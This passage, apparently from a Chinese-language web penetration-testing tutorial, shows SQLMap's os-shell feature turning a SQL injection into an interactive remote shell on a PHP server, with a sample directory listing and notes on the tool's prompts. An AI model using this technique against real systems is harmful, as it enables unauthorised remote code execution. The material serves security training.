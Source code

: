 ```bash
os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
---
```

正如我们所见，这次 SQLMap 成功地让我们进入了一个易于使用的交互式远程 shell，通过这种 SQLi 为我们提供了轻松的远程代码执行能力。

> **注意:** SQLMap 首先询问我们这个远程服务器使用的 Web 应用程序语言类型，我们知道是 PHP。然后它询问服务器 Web 根目录，我们要求 SQLMap 使用“常见位置”(common location(s)) 自动查找。这两个选项都是默认选项，如果我们给 SQLMap 添加了 `--batch` 选项，它们就会被自动选择。

